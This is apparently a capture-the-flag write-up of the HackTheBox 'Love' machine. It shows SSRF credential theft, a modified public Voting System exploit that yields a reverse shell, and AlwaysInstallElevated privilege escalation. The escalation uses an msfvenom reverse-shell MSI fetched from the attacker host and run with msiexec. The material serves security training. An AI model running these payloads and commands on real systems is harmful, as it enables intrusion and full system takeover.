---
tags:
  - AlwaysInstallElevated
group: Windows
---


- Machine : https://app.hackthebox.com/machines/Love
- Reference : https://0xdf.gitlab.io/2021/08/07/htb-love.html
- Solved : 2024.12.24. (Tue) (Takes 2days)

## Summary
---

1. **Initial Enumeration**
	- **Port Scanning**:
	    - Identified critical services: HTTP (80, 5000), HTTPS (443), SMB (139, 445), MySQL (3306), WinRM (5985, 5986).
	    - Discovered domain `love.htb` and alternative domain `staging.love.htb` via SSL certificate.
	- **Web Enumeration**:
	    - Found "Voting System" and "Free File Scanner" applications.
	    - Discovered potential credentials (`admin`, `@LoveIsInTheAir!!!!`) via SSRF on `staging.love.htb`.

2. **Shell as `phoebe`**
	- **Exploit Voting System**:
	    - Identified a public exploit for "Voting System".
	    - Modified exploit URLs to match the target paths and executed it successfully.
	    - Gained a reverse shell as `love\phoebe`.

3. **Privilege Escalation to `Administrator`**
	- **AlwaysInstallElevated Misconfiguration**:
	    - Found `AlwaysInstallElevated` enabled via `winPEAS`.
	    - Created an MSI payload with `msfvenom`.
	    - Executed the MSI payload using `msiexec` to gain a reverse shell.
	- **Shell as SYSTEM**:
	    - Gained SYSTEM shell via the MSI payload.

### Key Techniques:

- **Enumeration**:
    - Discovered domain and subdomains via SSL certificate analysis.
    - Explored web applications and identified SSRF vulnerability.
- **Exploitation**:
    - Leveraged a public exploit for "Voting System".
    - Exploited `AlwaysInstallElevated` misconfiguration for privilege escalation.
- **Reverse Shell**:
    - Used custom payloads to gain and escalate shell access.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.10.239
Performing quick port scan on 10.10.10.239...
Found open ports: 80,135,139,443,445,3306,5000,5040,5985,5986,7680,47001,49664,49665,49666,49667,49668,49669,49670
Performing detailed scan on 10.10.10.239...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-23 10:13 EST
Nmap scan report for 10.10.10.239
Host is up (0.67s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Voting System using PHP
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_http-title: 403 Forbidden
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings: 
|   NULL, TerminalServerCookie: 
|_    Host '10.10.14.14' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_http-title: Not Found
|_ssl-date: 2024-12-23T15:38:15+00:00; +21m33s from scanner time.
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  unknown
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.94SVN%I=7%D=12/23%Time=67697DFF%P=aarch64-unknown-linu
SF:x-gnu%r(NULL,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.14'\x20is\x20no
SF:t\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(Te
SF:rminalServerCookie,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.14'\x20is
SF:\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server"
SF:);
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-12-23T07:36:49-08:00
| smb2-time: 
|   date: 2024-12-23T15:37:02
|_  start_date: N/A
|_clock-skew: mean: 2h21m32s, deviation: 4h00m00s, median: 21m32s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 228.25 seconds
```

- Quite many ports are open : 80,135,139,443,445,3306,5000,5040,5985,5986,7680,47001,49664,49665,49666,49667,49668,49669,49670
- http(80, 5000), https(443) web service is open.
- smb(139,445) service exists.
- rpc(135) service exists.
- Domain name seems to be `love.htb`. Let's add this to `/etc/hosts`.

### http(80)



The loaded page is "Voting System" login page.
I inspect its source code and request/response, but there's nothing useful.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://love.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://love.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 330] [--> http://love.htb/images/]
/Images               (Status: 301) [Size: 330] [--> http://love.htb/Images/]
/admin                (Status: 301) [Size: 329] [--> http://love.htb/admin/]
/plugins              (Status: 301) [Size: 331] [--> http://love.htb/plugins/]
/includes             (Status: 301) [Size: 332] [--> http://love.htb/includes/]
/dist                 (Status: 301) [Size: 328] [--> http://love.htb/dist/]
```

I can find several sub pages, but none of them are useful.
`/admin` is same with index page.

I think I need to visit this later.

### http(443)



The index page is not loaded with "Forbidden" error.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u https://love.htb:443 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --no-tls-validation --exclude-length 299
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://love.htb:443
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          299
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/examples             (Status: 503) [Size: 399]
```

There seems to be no sub directories allowed to access.

To collect more information, I checked its certificate.



I can find another domain `staging.love.htb` and potential user's mail `roy@love.htb`.
Maybe these might be useful later..
Let's move on to http(5000) service.

### http(5000)



It also returns 403 error.
So far, I couldn't find any clue from 3 web services..
I think I have to visit other services.

### smb(139,445)

```bash
┌──(kali㉿kali)-[~/htb]
└─$ smbclient -L love.htb
Password for [WORKGROUP\kali]:
session setup failed: NT_STATUS_ACCESS_DENIED
```

Can't do anything without valid credential.

### mysql(3306)

```bash
┌──(kali㉿kali)-[~/htb]
└─$ mysql -h love.htb
ERROR 2002 (HY000): Received error packet before completion of TLS handshake. The authenticity of the following error cannot be verified: 1130 - Host '10.10.14.14' is not allowed to connect to this MariaDB server
```

There seems to be an access control blocking connection.
Let's come back to http service with different domain name : `staging.love.htb`

### http(80)



This time, I can see different page named "Free File Scanner".
It has "Demo" page which seems to offer demo service without sign-in.



This takes URL as its input. I think I have to open a web server to feed a file.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ls
port-scan.sh
    
┌──(kali㉿kali)-[~/htb]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.239 - - [23/Dec/2024 14:54:08] "GET /port-scan.sh HTTP/1.1" 200 -
```



When I feed URL, it prints out the read file as a plain text.
Since this web is running on PHP, maybe I can include PHP file with this function.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat test.php  
<?php echo "This is a test"; ?>
                                                                           
┌──(kali㉿kali)-[~/htb]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.239 - - [23/Dec/2024 15:04:33] "GET /test.php HTTP/1.1" 200 -
```

However, the output doesn't print out the echoed sentence.



```php
<input
  type=submit 
  name=read 
  class="button is-medium is-fullwidth is-success is-focused" 
  value="Scan file">

</form>

<?php echo "This is a test"; ?>

  </div>
          </div>
        </div>
```

On its source code, I can see the php code which is not run as php code.
PHP include doesn't seem working..

Wait.. what if I can include the server-side pages that I couldn't access to?
It's Server-side Request Forgery(SSRF) attack. Let's try it.



Since it's running on the server, I can put `127.0.0.1` as IP address.



The included page directly reveals `admin`'s credential : `@LoveIsInTheAir!!!!`
Let's try logging into the previously found login page with this credential.

At this time, I tried logging-in, but it didn't work for some reason.

# Shell as `phoebe`

### Exploit Voting System

Just in case if there's an existing exploit on Voting system, I googled, and found the following;



There's an existing exploit with the service.
Although this one requires Authentication, it doesn't matter since we already owned `admin`'s credential.
I downloaded the exploit and change the settings as follows;

```bash
# --- Edit your settings here ----
IP = "10.10.10.239" # Website's URL
USERNAME = "admin" #Auth username
PASSWORD = "@LoveIsInTheAir!!!!" # Auth Password
REV_IP = "10.10.14.14" # Reverse shell IP
REV_PORT = "9000" # Reverse port 
# --------------------------------
```

Now everything is set, and let's run it.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ python exploit.py
Start a NC listner on the port you choose above and run...
```

Unfortunately, the exploit is not successful. 

```python
<SNIP>

print("Start a NC listner on the port you choose above and run...")
sendPayload()
callShell()
```

It's printing message and seems to fail at `sendPayload()` function.
Let's inspect the code...

```python
INDEX_PAGE = f"http://{IP}/votesystem/admin/index.php"
LOGIN_URL = f"http://{IP}/votesystem/admin/login.php"
VOTE_URL = f"http://{IP}/votesystem/admin/voters_add.php"
CALL_SHELL = f"http://{IP}/votesystem/images/shell.php"
```

I found out that the URLs are suspicious.
During the previous `gobuster` scan, I found out that the page `/admin`'s full URL is `http://love.htb/admin` which doesn't contain `/votesystem`.
Let's remove `/votesystem` and try it again.

```python
INDEX_PAGE = f"http://{IP}/admin/index.php"
LOGIN_URL = f"http://{IP}/admin/login.php"
VOTE_URL = f"http://{IP}/admin/voters_add.php"
CALL_SHELL = f"http://{IP}/images/shell.php"
```

Now let's run it again.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ python exploit.py 
Start a NC listner on the port you choose above and run...
Logged in
Poc sent successfully
```

Let's check the listener.

```scss
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.239] 50684
b374k shell : connected

Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>whoami
whoami
love\phoebe
```

I got `phoebe`'s shell.


# Shell as `Administrator`

### Enumeration

```bash
C:\Users\Phoebe\Desktop>type C:\Users\Phoebe\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

curl 10.10.14.9:8000/dControl.zip -o dControl.zip
```

Powershell history shows that the user `Phoebe` tried to download `dControl.zip` file.

```bash
C:\Users\Phoebe\Desktop>net user Phoebe

User name                    Phoebe
Full Name                    Phoebe
Comment                      Workstation Power User
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            4/12/2021 11:54:30 AM
Password expires             Never
Password changeable          4/12/2021 11:54:30 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   12/23/2024 11:52:41 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use*Users                
Global Group memberships     *None                 
The command completed successfully.
```

Nothing useful here.

```bash
C:\Users\Phoebe\Desktop>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

None of. these privileges are useful for privesc.
Let's investigate deeply with `winPEAS`.

```bash
c:\Users\Phoebe\Documents>.\wp.exe


����������͹ PowerShell Settings
    PowerShell v2 Version: 2.0
    PowerShell v5 Version: 5.1.19041.1
    PowerShell Core Version: 
    Transcription Settings: 
    Module Logging Settings: 
    Scriptblock Logging Settings: 
    PS history file: C:\Users\Phoebe\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    PS history size: 51B


����������͹ Checking AlwaysInstallElevated
�  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated                                             
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!


����������͹ Users
� Check if you have some admin equivalent privileges https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#users-and-groups
  Current user: Phoebe
  Current groups: Domain Users, Everyone, Builtin\Remote Management Users, Users, Interactive, Console Logon, Authenticated Users, This Organization, Local account, Local, NTLM Authentication


����������͹ Logged users
    LOVE\Administrator
    LOVE\Phoebe


����������͹ Modifiable Services
� Check if you can modify any service https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services                       
    LOOKS LIKE YOU CAN MODIFY OR START/STOP SOME SERVICE/s:
    RmSvc: GenericExecute (Start/Stop)
    wcncsvc: GenericExecute (Start/Stop)
    BcastDVRUserService_3f381: GenericExecute (Start/Stop)
    ConsentUxUserSvc_3f381: GenericExecute (Start/Stop)
    CredentialEnrollmentManagerUserSvc_3f381: GenericExecute (Start/Stop)
    DeviceAssociationBrokerSvc_3f381: GenericExecute (Start/Stop)
    DevicePickerUserSvc_3f381: GenericExecute (Start/Stop)
    DevicesFlowUserSvc_3f381: GenericExecute (Start/Stop)
    PimIndexMaintenanceSvc_3f381: GenericExecute (Start/Stop)
    PrintWorkflowUserSvc_3f381: GenericExecute (Start/Stop)
    UdkUserSvc_3f381: GenericExecute (Start/Stop)
    UnistoreSvc_3f381: GenericExecute (Start/Stop)
    UserDataSvc_3f381: GenericExecute (Start/Stop)
    WpnUserService_3f381: GenericExecute (Start/Stop)
```

There are more potential vulnerabilities found.
Among these, I think `AlwaysInstallElevated` is critical.
Here's the reference:
https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/

Let's create a payload and transfer it through web server.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.14 lport=9001 -a x64 --platform windows -f msi -o ignite.msi
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: ignite.msi
  
┌──(kali㉿kali)-[~/htb]
└─$ ls
exploit.py  ignite.msi  port-scan.sh  test.php
  
┌──(kali㉿kali)-[~/htb]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.239 - - [24/Dec/2024 02:06:15] "GET /ignite.msi HTTP/1.1" 200 -
```

Then, let's download it and install it.

```bash
c:\Users\Phoebe\Documents>powershell wget http://10.10.14.14:8000/ignite.msi -o ignite.msi    
powershell wget http://10.10.14.14:8000/ignite.msi -o ignite.msi

c:\Users\Phoebe\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 56DE-BA30

 Directory of c:\Users\Phoebe\Documents

12/23/2024  11:27 PM    <DIR>          .
12/23/2024  11:27 PM    <DIR>          ..
12/23/2024  11:27 PM           159,744 ignite.msi
12/23/2024  11:09 PM         9,856,000 wp.exe
               2 File(s)     10,015,744 bytes
               2 Dir(s)   4,120,875,008 bytes free

c:\Users\Phoebe\Documents>msiexec /quiet /qn /i ignite.msi
msiexec /quiet /qn /i ignite.msi
```

And, let's wait on listener.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.239] 49602
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```

I got root!